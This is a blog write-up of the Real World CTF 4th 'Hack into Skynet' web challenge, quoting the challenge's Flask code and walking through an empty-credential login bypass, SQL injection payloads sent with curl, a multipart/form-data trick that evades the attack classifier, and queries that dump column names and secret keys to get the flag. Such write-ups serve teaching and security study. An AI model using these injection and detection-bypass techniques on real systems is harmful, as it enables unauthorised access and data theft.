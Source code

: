 ```yaml
---
layout: post
title: "Real World CTF 4th Hack into Skynet Write Up"
date: 2022-01-24 23:29:53
description: This article is about write-up for the Real World CTF 4th. there is only one web challenges, which contain SQL Injection and Logic Bug on Gnuboard bug
imgurl: https://pbs.twimg.com/profile_images/1468855553518571521/kKBOfVux_400x400.jpg
excerpt: I haven't joined in CTF for about 3 months. Then this weekend I got an interesting challenge from Real World CTF. The Hack into Skynet challenge is to bypass the detection mechanism and trigger sql injection. However, this mechanism could not be easily bypassed
---
```


![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/1.png?raw=true)
There is no sql injection vulnerability in login logic, and login is generally not possible because there is no user account.

```python
def query_login_attempt():
    username = flask.request.form.get('username', '')
    password = flask.request.form.get('password', '')
    if not username and not password:
        return False

    sql = ("SELECT id, account"
           "  FROM target_credentials"
           "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest())
    user = sql_exec(sql)
    name = user[0][1] if user and user[0] and user[0][1] else ''
    return name == username
```
I've found some stupid logic in the code of the login logic. If the user variable is an empty value, the empty value of the name variable is put in, and finally the value of the name variable and the username variable is compared. Here, if the name variable and the username variable are both empty values, true is returned, so the login can be successful.

![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/2.png?raw=true)
As expected, the login was successful when the username value was passed as an empty value. Now that the login was successful, the search logic can be used.

```python
def query_kill_time():
    name = flask.request.form.get('name', '')
    if not name:
        return None

    sql = ("SELECT name, born"
           "  FROM target"
           "  WHERE age > 0"
           "    AND name = '{}'").format(name)
    nb = sql_exec(sql)
    if not nb:
        return None
    return '{}: {}'.format(*nb[0])
```
SQL injection occurs because the value of name in the query_kill_time() function is passed as it is to the query.

```bash
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:15:34 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```
When attempting sql injection, it was found that the detection mechanism was controlled.

```python
(...)

def skynet_detect():
    req = {
        'method': flask.request.method,
        'path': flask.request.full_path,
        'host': flask.request.headers.get('host'),
        'content_type': flask.request.headers.get('content-type'),
        'useragent': flask.request.headers.get('user-agent'),
        'referer': flask.request.headers.get('referer'),
        'cookie': flask.request.headers.get('cookie'),
        'body': str(flask.request.get_data()),
    }
    _, result = skynet.classify(req)
    return result and result['attack']

(...)

@app.route('/', methods=['GET', 'POST'])
def do_query():
    if skynet_detect():
        return flask.abort(403)

    if not query_login_state():
        response = flask.make_response('No login, redirecting', 302)
        response.location = flask.escape('/login')
        return response

    if flask.request.method == 'GET':
        return flask.send_from_directory('', 'index.html')
    elif flask.request.method == 'POST':
        kt = query_kill_time()
        if kt:
            result = kt 
        else:
            result = ''
        return flask.render_template('index.html', result=result)
    else:
        return flask.abort(400)
```
The reason is that the skynet_detect() function was being called before the query_kill_time() function was called. Here again the code was written with very stupid logic.

```txt
skynet_detect()   : flask.request.get_data()
query_kill_time() : flask.request.form.get()
```
In the skynet_detect() function, the get_data() method was used, and in the query_kill_time() function, the form.get() method was used, and the body value was used. Why use it differently? I got a lot of doubts here, and I thought this would be important in solving the challenge.

```bash
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --" -H "Content-Type: application/json"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:22:35 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
root@pocas:~# curl -i -H 'SessionId=22ab1d4b55f5a686c3c9947c0a5ad830' http://47.242.21.212:8086/ -d "name='or 1=1 --" -H "Content-Type: application/xml"
HTTP/1.0 403 FORBIDDEN
Content-Type: text/html
Content-Length: 234
Server: Werkzeug/0.16.1 Python/3.8.10
Date: Thu, 27 Jan 2022 08:22:39 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don\'t have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
```
So, while changing the value of `Content-Type` as above, I tried to bypass the detection mechanism by using the difference in parsing between the two functions. but no response. However, the important thing is that I did not use the file upload function using Multipart/form-data. When a file is uploaded, not only the file name and contents, but also various values exist as binary data. So I thought that if I tried using these functions, the values could be mixed and bypassed.

![](https://github.com/blogpocas/blogpocas.github.io/blob/main/CTF/Real%20World%20CTF%202022/Hack%20into%20Skynet/3.png?raw=true)
As expected, it was strangely detoured.

```sql
select string_agg(column_name, ','),null from information_schema.columns where table_name='target_credentials' --
==> -- id,account,password,access_key,secret_key: None

select string_agg(secret_key, ','),'f' from target_credentials --
==> -- rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n},92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937,92ed3ec5e34b68ab2c3984a1b5474937: f
```

```plaintext
FLAG : rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n}
```

---